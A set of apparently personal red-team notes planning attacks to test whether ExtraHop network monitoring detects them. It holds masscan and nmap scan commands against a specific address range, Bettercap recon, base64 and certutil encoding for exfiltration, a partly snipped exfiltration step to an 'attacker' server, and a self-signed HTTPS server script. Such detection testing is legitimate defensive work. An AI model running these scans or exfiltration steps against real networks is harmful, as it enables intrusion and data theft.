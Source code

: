 1) Scan for vuls
	1) Nessus
	2) OpenVAS

2) Discovery
	1) SYN
	2) Full Port scan
	3) Brute-force login
		1) Observe if ExtraHop able to identify any successful brute force
	4) Weak/vul service discovered/exploited/access
	5) Outside hour operation
	6) Keeping access alive (refreshing access of high priv account for later exploit)
3) Lateral Movement
4) Tunneling 
	1) SSH
	2) Custom port
5) Steganography (hide malicious data within images/docs)

6) Metasploit

7) A new device plugged into the network
	1) Raspberry pi with automated script to perform slow scans, resource discovery, slow credentials brute force
8) Within AD
	1) Identifying misconfigured assets/policies
9) Internal Network Pivoting
	1) Low priv account logged-in to another machine with High priv
10) Exfilration
	1) https://book.hacktricks.xyz/generic-methodologies-and-resources/exfiltration
11) Living-of-the-land
	1) Upload binary file



****

## Discovering hosts from the outside


```
masscan -p20,21-23,25,53,80,110,111,135,139,143,443,445,993,995,1723,3306,3389,5900,8080 199.66.11.0/24
```

TCP

```
masscan -p80,443,8000-8100,8443 199.66.11.0/24
```


UDP

```
nmap -sU -sV --version-intensity 0 -F -n <IP>/24
```


Passive Discovery

```
netdiscover -p
p0f -i eth0 -p -o /tmp/p0f.log
# Bettercap
net.recon on/off #Read local ARP cache periodically
net.show
set net.show.meta true #more info
```


## Scanning Host

TCP

```
# Nmap fast scan for the most 1000tcp ports used
nmap -sV -sC -O -T4 -n -Pn -oA fastscan <IP> 

# Nmap fast scan for all the ports
nmap -sV -sC -O -T4 -n -Pn -p- -oA fullfastscan <IP> 

# Nmap fast scan for all the ports slower to avoid failures due to -T4
nmap -sV -sC -O -p- -n -Pn -oA fullscan <IP>

#Bettercap Scan
syn.scan 192.168.1.0/24 1 10000 #Ports 1-10000
```

UDP

```
# Check if any of the most common udp services is running
udp-proto-scanner.pl <IP> 

# Nmap fast check if any of the 100 most common UDP services is running
nmap -sU -sV --version-intensity 0 -n -F -T4 <IP>

# Nmap check if any of the 100 most common UDP services is running and launch defaults scripts
nmap -sU -sV -sC -n -F -T4 <IP> 

# Nmap "fast" top 1000 UDP ports
nmap -sU -sV --version-intensity 0 -n -T4 <IP>

# You could use nmap to test all the UDP ports, but that will take a lot of time
```



## Exfiltration

Linux

```
base64 -w0 <file> #Encode file
base64 -d file #Decode file**
```

Windows

```
certutil -encode payload.dll payload.b64
certutil -decode payload.b64 payload.dll
```


HTTP connection from internal host to attacker

Python simple server

```
python3 -m http.server
```

Vic

```
wget .... <snipped>
```

1) hide message in images
2) Send to attacker / download image contained within the image


Generate a Self-Signed Certificate

    Generate a Private Key:

    bash

openssl genrsa -out server.key 2048

Generate a Certificate Signing Request (CSR):

bash

openssl req -new -key server.key -out server.csr

    Fill in the details as prompted. For the "Common Name," use your server's IP address or domain name.

Generate the Self-Signed Certificate:

bash

    openssl x509 -req -days 365 -in server.csr -signkey server.key -out server.crt

Step 2: Create a Simple HTTPS Server in Python

    Create a Directory for Your Server Files:

    bash

mkdir https_server
cd https_server

Create a Simple Python HTTP Server Script:

    Create a file named https_server.py and add the following code:

python

import http.server
import ssl

# Define the server and the handler
server_address = ('', 4443)
httpd = http.server.HTTPServer(server_address, http.server.SimpleHTTPRequestHandler)

# Wrap the server's socket with SSL
httpd.socket = ssl.wrap_socket(httpd.socket,
                               keyfile="server.key",
                               certfile="server.crt",
                               server_side=True)

print("Serving on port 4443")
httpd.serve_forever()

Move the Certificate and Key to the Server Directory:

bash

    mv ../server.key .
    mv ../server.crt .

Step 3: Run the HTTPS Server

    Run the Python Script:

    bash

    python3 https_server.py

        The server will start and listen on port 4443.

Step 4: Generate Traffic and Test

    Generate HTTPS Traffic:
        Open a web browser and navigate to https://<your-server-ip>:4443.
        You will receive a security warning because the certificate is self-signed. Proceed anyway.

    Verify with ExtraHop:
        Check ExtraHop to see if it detects the self-signed certificate and provides any alerts or insights about it.

nstalling Dependencies

If you don’t have http.server or ssl modules (they are part of Python standard library, so they should be available), you may need to install Python:

    For Ubuntu/Debian:

    bash

sudo apt-get update
sudo apt-get install python3